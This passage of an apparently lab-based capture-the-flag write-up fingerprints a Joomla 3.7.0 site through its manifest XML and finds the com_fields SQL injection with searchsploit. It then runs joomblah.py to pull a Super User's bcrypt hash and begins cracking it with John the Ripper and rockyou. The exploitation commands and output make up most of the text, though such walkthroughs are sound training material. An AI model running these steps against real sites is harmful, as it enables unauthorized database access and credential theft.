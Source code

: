 
To find out the Joomla version, there is an XML file at /administrator/manifests/files/joomla.xml that contains the Joomla version of 3.7.0, this was found after some research and of course, a StackOverflow article.

Reference: https://joomla.stackexchange.com/questions/7148/how-to-get-joomla-version-by-http

#### XML URL Result
```
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<extension version="3.6" type="file" method="upgrade">
<name>files_joomla</name>
<author>Joomla! Project</author>
<authorEmail>admin@joomla.org</authorEmail>
<authorUrl>www.joomla.org</authorUrl>
<copyright>(C) 2005 - 2017 Open Source Matters. All rights reserved</copyright>
<license>GNU General Public License version 2 or later; see LICENSE.txt</license>
<version>3.7.0</version>
<creationDate>April 2017</creationDate>
<description>FILES_JOOMLA_XML_DESCRIPTION</description>

-- SNIP --
```

#### Searchsploit result
```
$ searchsploit Joomla 3.7.0 

---------------------------------------------------------------------
 Exploit Title                              |  Path
---------------------------------------------------------------------
 Joomla! 3.7.0 - 'com_fields' SQL Injection |  php/webapps/42033.txt
---------------------------------------------------------------------
Shellcodes: No Results
```


Searching about this exploit reveals a python script called joomblah.py that performs this. 

```
$ py2 joomblah.py http://10.10.40.190

-- SNIP --

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```


#### John the Ripper Output
```
john jonah.hash --wordlist=/usr/share/wordlists/rockyou.txt
--------------------------------------------------------------------------
The library attempted to open the following supporting CUDA libraries,
but each of them failed.  CUDA-aware support is disabled.
libcuda.so.1: cannot open shared object file: No such file or directory
libcuda.dylib: cannot open shared object file: No such file or directory
/usr/lib64/libcuda.so.1: cannot open shared object file: No such file or directory
/usr/lib64/libcuda.dylib: cannot open shared object file: No such file or directory
If you are not interested in CUDA-aware support, then run with
--mca opal_warn_on_missing_libcuda 0 to suppress this message.  If you are interested
in CUDA-aware support, then try setting LD_LIBRARY_PATH to the location
```